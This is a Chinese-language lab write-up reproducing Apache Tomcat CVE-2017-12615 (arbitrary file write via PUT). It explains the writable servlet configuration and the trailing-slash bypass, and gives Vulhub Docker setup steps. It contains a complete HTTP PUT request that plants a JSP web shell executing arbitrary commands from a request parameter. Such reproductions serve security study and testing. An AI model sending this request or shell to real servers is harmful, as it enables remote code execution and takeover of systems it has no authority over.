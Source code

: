 # Apache Tomcat PUT方法任意写文件漏洞 CVE-2017-12615

## 漏洞描述

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 影响版本

```
Apache Tomcat 7.0.0-7.0.81（默认配置）
```

## 环境搭建

Vulhub启动Tomcat 8.5.19环境：

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /2.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>");
    }
%>
```

如下：

![image-20220302155053358](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021550397.png)